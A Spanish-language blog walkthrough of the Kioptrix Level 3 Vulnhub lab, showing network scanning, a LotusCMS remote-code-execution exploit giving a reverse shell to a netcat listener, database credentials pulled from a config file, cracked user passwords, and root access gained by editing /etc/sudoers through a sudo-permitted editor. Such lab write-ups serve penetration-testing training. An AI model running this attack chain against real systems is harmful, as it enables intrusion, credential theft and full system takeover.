 ```yaml
---
weigth: 1
title: "Kioptrix Level 3 Walkthrough"
date: 2023-08-25T11:24:09+02:00
draft: false
author: Antu
publishDate: 2023-08-25
tags: ["Walkthrough", "Vulnhub", "TjNull", "OSCP", "Easy"]
categories: ["Vulnhub"]
images: []
resources: 
- name: "featured-image"
  src: "preimagenKioptrix3.png"

lightgallery: true

toc:
  auto: false
---
```

# Kioptrix Level 3

## Resolución de la Maquina

### Escaneo y Análisis de Vulnerabilidades

Empezamos con un escaneo a nuestra red local con el comando arp para obtener la ip de nuestra maquina objetivo.

```bash
arp-scan -I eth0 --localnet
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled.png)

Una vez obtenida la ip procedemos a realizar un escaneo con nmap.

```bash
nmap -sCV 192.168.66.161
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-25 13:37 EDT
Nmap scan report for kioptrix3.com (192.168.66.161)
Host is up (0.0099s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds
```

Tras realizar el escaneo con nmap vemos que tiene el puerto 80 abierto con un servicio http por lo que vamos a ver que contiene utilizando nuestro buscador en este caso Firefox y vemos la siguiente web.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%201.png)

En la descripcion de la maquina nos dice que añadamos el dominio [kioptrix3.com](http://kioptrix3.com) a nuestro fichero /etc/hosts para poder ver bien la web por lo que lo abrimos y añadimos lo siguiente:

```bash
192.168.66.161  kioptrix3.com
```

### Explotación

Tras husmear por la pagina vemos que la web esta hecha con LotusCMS

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%202.png)

Por lo que pasamos a buscar en Google si existe algún exploit para este CMS y encontramos el siguiente:

https://github.com/Hood3dRob1n/LotusCMS-Exploit

lo clonamos a nuestra maquina y ejecutamos

```bash
./lotusRCE.sh kioptrix3.com /

#Introducimos nuestra ip
192.168.66.152 
#El puerto
4444
#En otra terminal iniciamos netcat
nc -nlvp 4444
#selecionamos la opcion 1
1
#obtenemos una shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.161] 38651
whoami
www-data
```

Realizamos un tratamiento de la tty para trabajar mas cómodos y poder hacer Ctrl+C

```bash
script /dev/null -c bash
stty raw –echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows <num> columns <cols>
```

Tras enumerar un rato encontramos el archivo gconfig.php en /home/www/kioptrix3.com/gallery el cual contiene unas credenciales a la base de datos.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%203.png)

Nos logeamos en mysql:

```bash
mysql -uroot -pfuckeyou
```

Y obtenemos las credenciales del usuario admin pero tras realizar unos intentos no nos sirve para cambiar de usuario.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%204.png)

Pasamos a logearnos en phpmyadmin con las credenciales obtenidas anteriormente.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%205.png)

y localizamos los hashes de los usuarios de la maquina

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%206.png)

he utilizado una web online para crackear estos hashes obteniendo la contraseña en texto claro

[https://crackstation.net/](https://crackstation.net/)

Dreg

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%207.png)

loneferret

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%208.png)

```bash
dreg:Mast3r
loneferret:starwars
```

una vez obtenida las credenciales pasamos a conectarnos a través de SSH pero obtenemos un error.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%209.png)

Para solucionarlo escribimos lo siguiente para conectarnos:

```bash
ssh  -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.66.161
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2010.png)

### Escalada de Privilegios

Si leemos el fichero CompanyPolicy.README nos dice que han instalado un nuevo software para editar, crear y ver archivos y que para ello utilicemos el comando “sudo ht”.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2011.png)

Con sudo -l vemos que tenemos permisos para ejecutarlo con sudo.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2012.png)

si lo ejecutamos de primeras nos saltara un error por lo que tenemos que ejecutar lo siguiente:

```bash
export TERM=xterm
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2013.png)

y ejecutamos:

```bash
sudo ht
```

Para abrir un fichero debemos de utilizar las teclas ALT+ F y seleccionar el campo open:

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2014.png)

Vamos a editar el fichero /etc/sudoers para poder lanzar una Shell como root y así escalar privilegios.

Para ello escribimos /etc/sudoers y damos al enter.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2015.png)

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2016.png)

Añadimos el siguiente comando seguido de los comandos existentes al usuario loneferret para que pueda ejecutarlo con sudo.

```bash
, bin/sh
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2017.png)

Pulsamos ALT + F  guardamos y salimos.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2018.png)

Obtenemos una Shell como root:

```bash
loneferret@Kioptrix3:~$ sudo sh
# whoami
root
```
Un saludo y Feliz Hacking :)
